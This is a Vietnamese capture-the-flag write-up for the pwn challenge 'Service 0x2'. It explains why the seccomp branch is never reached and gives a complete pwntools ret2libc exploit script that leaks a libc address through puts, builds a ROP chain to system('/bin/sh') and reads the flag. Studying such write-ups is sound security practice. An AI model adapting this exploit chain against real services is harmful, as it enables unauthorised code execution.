



# Service 0x2



Mới đầu mình tưởng đây sẽ là 1 bài nâng cấp so với với 2 bài của phần thi khởi động. Nhưng có vẻ tác giả đã có sự nhầm lẫn :v


---


bài khá đơn giản, có một đoạn kiểm tra biến global `check` nhưng không có đoạn nào làm thay đổi giá trị biến này. Nên `setup_seccomp()` sẽ không được gọi. Nên mình bỏ qua đoạn này và làm như dạng `ret2libc` thông thường. Cách làm giống bài vòng khởi động nên mình sẽ không nói nhiều.

---
đây là script của mình:

```python
from pwn import *

# Many built-in settings can be controlled via CLI and show up in "args"
# For example, to dump all data sent/received, and disable ASLR
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *main + 293
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './chall_patched'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
#context.log_level = 'debug'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
p = start()
rop = ROP(elf)
libc = ELF('./libc-2.31.so')
context.arch = 'amd64'
payload = b"a" * 44 + p32(0x1) 
payload += p64(0xdeadbeef)
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main'])
p.sendlineafter(b"> ",payload)
p.sendlineafter(b"> ", b'1')
p.recvline()
leak = u64(p.recv(6).ljust(8, b'\x00'))
log.info("leak: " + hex(leak))
libc.address = leak - libc.symbols['puts']
log.info("libc.address: " + hex(libc.address))  
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))
payload = b"a" * 44 + p32(0x1) + p64(0xdeadbeef)
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(binsh_addr)
#ret = rop.find_gadget(['ret'])[0]
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(system_addr)
p.sendlineafter(b"> ",payload)
p.sendlineafter(b"> ", b'1')
p.sendline(b'cat /home/ctf/flag.txt')
p.interactive()
```

server đã tắt và trong lúc thi mình cũng không cap lại ảnh.
Flag: `ASCIS{syscall_g00d_int_0x80_b3st}`

Đọc flag thì mình có thì mình có đoán ý tưởng ban đầu của tác giả sẽ giống 1 bài mình từng làm. Mình để tạm Writeup của bạn Trí của cơ sở miền nam ở đây các bạn có thể đọc thêm: [writeup](https://github.com/nhtri2003gmail/CTFWriteup/tree/master/2022/KMACTF-2022/Duet)